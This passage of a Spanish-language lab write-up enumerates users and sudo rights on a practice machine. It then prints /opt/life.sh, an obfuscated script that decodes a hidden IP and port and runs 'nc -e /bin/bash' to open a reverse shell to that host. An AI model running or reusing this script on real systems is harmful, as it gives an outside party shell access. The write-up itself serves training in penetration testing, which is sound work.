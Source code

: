 

# Escalada de privilegios
---
Para poder hacer `Ctrl + L`, necesitamos cambiar la variable de entorno `TERM`

~~~ bash
export TERM=xterm
~~~

Si leemos el archivo `/etc/passwd` podemos ver que existen los usuarios `bilter` y `purter` además de `dimer` y `root`

~~~ bash
dimer@dockerlabs:~$ cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
dimer:x:1001:1001:dimer,,,:/home/dimer:/bin/bash
bilter:x:1000:1000:bilter,,,:/home/bilter:/bin/bash
purter:x:1002:1002::/home/purter:/bin/bash
~~~


## Sudoers Privileges - `dimer`

Primeramente listaremos los privilegios `sudoers` que tengamos asignados

~~~ bash
dimer@dockerlabs:~$ sudo -l

Matching Defaults entries for dimer on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dimer may run the following commands on dockerlabs:
    (bilter : bilter) NOPASSWD: /opt/life.sh
~~~

Podemos ejecutar el script `/opt/life.sh` como el usuario `bilter`

~~~ bash
dimer@dockerlabs:~$ cat /opt/life.sh
#!/bin/bash

set +m

v1=$((0xCAFEBABE ^ 0xAC1100BA))
v2=$((0xDEADBEEF ^ 0x17B4))

a=$((v1 ^ 0xCAFEBABE))
b=$((v2 ^ 0xDEADBEEF))

c=$(printf "%d.%d.%d.%d" $(( (a >> 24) & 0xFF )) $(( (a >> 16) & 0xFF )) $(( (a >> 8) & 0xFF )) $(( a & 0xFF )))

d=$((b))

e="nc"
f="-e"
g=$c
h=$d

$e $g $h $f /bin/bash &>/dev/null &
~~~ 
